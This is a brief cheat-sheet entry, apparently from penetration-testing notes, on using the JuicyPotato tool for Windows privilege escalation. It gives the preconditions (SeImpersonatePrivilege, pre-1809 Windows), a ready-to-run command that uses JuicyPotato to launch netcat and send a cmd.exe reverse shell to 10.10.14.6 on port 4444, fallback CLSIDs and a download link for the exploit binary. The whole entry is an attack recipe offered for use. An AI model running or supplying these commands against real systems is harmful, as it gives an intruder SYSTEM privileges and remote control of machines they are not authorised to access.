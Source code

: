 # Name
JuicyPotato

## Usage
```
#Does not work on Win10 version >= 1809, Serverr2019
#SeImpersonatePrivilege is enabled 

juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\Desktop\nc32.exe -e cmd.exe 10.10.14.6 4444" -t *

#Can add the following if not working
-c {C49E32C6-BC8B-11d2-85D4-00105A1F8304}
-c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```

## Source
https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
